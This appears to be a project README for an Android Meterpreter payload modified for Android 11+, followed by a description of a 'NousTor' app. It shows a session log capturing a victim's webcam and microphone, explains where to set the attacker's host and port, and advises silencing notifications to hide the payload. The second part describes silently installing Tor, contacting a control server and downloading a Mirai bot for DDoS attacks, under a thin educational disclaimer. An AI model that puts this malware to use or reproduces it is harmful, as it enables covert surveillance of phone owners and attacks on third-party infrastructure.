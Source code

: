 # Meterpreter-Android
<img src="https://cloud.githubusercontent.com/assets/7417870/12315404/6dd58120-bab5-11e5-8a10-d5fec03d38d2.gif" width="100" align="right">
Meterpreter payload modified for Android, make it compatible with Android 11+, functions such as camera preview and microphone recording are working properly.

I recommend that after installing the payload on the victim's cell phone, disable the app's notification permission, to make the payload quieter.
```
meterpreter > sysinfo
Computer        : localhost
OS              : Android 13 - Linux 4.19.191-perf-g3c7e48ca8847 (aarch64)
Architecture    : aarch64
System Language : pt_BR
Meterpreter     : dalvik/android
meterpreter > webcam_snap -i 2
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /root/android/bOjFlXzC.jpeg
meterpreter > record_mic -d 5
[*] Starting...
[*] Stopped
Audio saved to: /root/android/TLbcSexf.wav
meterpreter >
```

Setting:

Open the file: Nous/app/src/main/java/nous/client/Payload.java

On line 26 edit your host and Port.
```
public static final String URL = "ZZZZtcp://Host:Port
```

Compiler:
https://github.com/LGLTeam/AIDE-Mods


# Tor Network "NousTor.zip"

## Description:
This Android application is designed to perform various harmful activities on the victim's device without their consent. It includes the following functionalities:

1. **Background Installation of Tor**: The application silently downloads and installs the Tor software in the background, without the user's knowledge. This allows the application to communicate anonymously over the Tor network, hiding its malicious activities.

2. **Communication via Tor Network**: Once installed, the application utilizes the Tor network for communication, sending and receiving data from a remote control server. This makes it difficult to detect and trace the malicious activities, as network traffic is encrypted and routed through multiple nodes in the Tor network.

3. **Installation of Mirai Bot**: Additionally, the application downloads and installs the Mirai bot, adapted for Android devices, from a remote server. This bot can be programmed to perform a variety of malicious functions, such as launching distributed denial-of-service (DDoS) attacks, stealing personal information from the user, or infecting other devices on the same network.

4. **Execution of DDoS Attacks**: Once the Mirai bot is active on the victim's device, it can be used to launch DDoS attacks against servers and websites, causing service disruptions and damage to online infrastructure.

## Disclaimer:
This application is created for educational purposes only and should not be used for any malicious activities. The developer assumes no responsibility for any illegal use of this application.

## Legal Notice:
Unauthorized use and distribution of this application may violate local, state, and federal laws. The developer disclaims any liability for the misuse of this application. Use at your own risk.

## Support:
For questions or support, please contact the developer at NousMik@proton.me

---
